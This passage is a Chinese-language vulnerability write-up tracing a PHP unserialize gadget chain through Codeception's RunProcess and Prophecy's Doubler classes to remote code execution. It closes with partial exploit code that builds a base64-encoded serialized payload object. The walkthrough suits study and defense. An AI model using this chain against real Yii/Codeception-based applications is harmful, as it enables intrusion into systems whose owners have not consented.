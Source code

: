 `$this->revealer`可控,去寻找可控的reveal方法,这个类里面就有一个

![image-20211008220824229](images/5.png)

跟进getInstance

![image-20211008220853375](images/6.png)

跟进double

```
vendor/phpspec/prophecy/src/Prophecy/Doubler/Doubler.php
```

这里需要注意的是传入此处的 `$class` 和 `$interfaces`参数 必须是一个 `ReflectionClass` 类的对象 和对象数组,在后面写exp的时候要注意![image-20211008221241241](images/7.png)

到这里一切还是可控的

跟进createDoubleClass

![image-20211008222244380](images/8.png)

这里的`$name`和`$node`貌似不可控了,不过可以看看他是怎么来的

`$this->namer`和`$this->mirror`是可控的,那就可以用第一条链子找到的直接返回一个可控值的call方法开对`$name`和`$node`的值进行控制

继续跟进可用的create

![image-20211008222847176](images/9.png)

这里$code仍然用那个call方法对值进行控制,直接rce了

注意一下 这里 `$class` ， 需要 `Node\ClassNode` 类的对象，也就是当前命名空间`\Node\` 的`ClassNode` 

## 漏洞复现

exp

```
<?php

namespace Codeception\Extension {

    use Prophecy\Prophecy\ObjectProphecy;

    class  RunProcess
    {

        private $processes = [];
        public function __construct()
        {
            $a = new ObjectProphecy('1');
            $this->processes[] = new ObjectProphecy($a);
        }
    }
    echo base64_encode(serialize(new RunProcess()));
}

namespace Faker {
    class DefaultGenerator
    {
        protected $default;
        public function __construct($default)
        {
            $this->default = $default;
        }
    }
}
```